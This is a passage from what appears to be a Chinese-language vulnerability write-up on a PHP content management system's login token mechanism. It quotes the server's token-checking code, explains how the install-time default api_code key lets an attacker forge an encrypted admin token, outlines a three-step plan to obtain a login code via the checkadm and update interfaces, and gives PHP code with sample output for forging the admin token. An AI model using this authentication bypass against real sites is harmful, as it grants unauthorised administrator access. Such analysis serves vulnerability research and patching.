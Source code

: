 ```php
    $msg = $this->lib('token')->decode($content);
    if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
       $this->error(P_Lang('数据解码失败'));
    }
    //超过 30 天，告知无效
    $time = $this->time - $msg['time'];
    if($time>(30*24*60*60)){
       $this->error(P_Lang('数据超过30天，自动无效'));
    }
    $domain = $this->_domain();
    if($msg['domain'] != $domain){
       $this->error(P_Lang('数据来源不准确'));
    }
    $rs = $this->model('admin')->get_one($msg['id']);
    if(!$rs || $rs['account'] != $msg['user']){
       $this->error(P_Lang('账号不一致'));
    }
    $data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
    $data['domain'] = $domain;
    //基于临时密码生成账号密串
    $keyid = $this->lib('file')->cat($file);
    $this->lib('token')->keyid($keyid);
    $this->lib('token')->expiry(300);
    $logincode = $this->lib('token')->encode($data);
    $this->model('log')->add(P_Lang('生成客户端密钥，用于下次扫码快速确认登录'));
    $this->success(array('account'=>$rs['account'],'logincode'=>$logincode));
}
```

该方法首先用`config`数据表中的`api_code`的内容作为密钥来解密请求参数`content`的密文，当存在`id`、`user`、`time`、`domain`四个键值对

时会找到请求参数`$fid`对应文件的内容做密钥，加密`$data`变量，并将结果在`logincode`字段返回。可以看到`$data`的内容和`update_f`方法中`quickcode`的键值是完全相同的。并且`config`数据表是安装时进行初始化的属于默认值。

根据上面分析我们可以有如下思路

1.  利用数据库中`api_code`的值来加密用户为`admin`的信息
2.  利用`checkadm`接口来生成`update`接口所需的加密字符串
3.  通过访问`update`接口生成 checking 文件进行登录

ps：好像一切都想好的地方发展，难道成了？！

## 0x04 思路实现

1.  编写代码生成`admin`信息加密文本

```php
$data = array('id'=>1, 'user'=>'admin', 'time'=>'1698570334', 'domain'=>'192.168.31.243');
$api_code = $this->model('config')->get_one('api_code',$this->site['id']);
$this->lib('token')->keyid($api_code);
$msg = $this->lib('token')->encode($data);
$this->success($msg);

//res: {"info":"bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs","status":1}
```
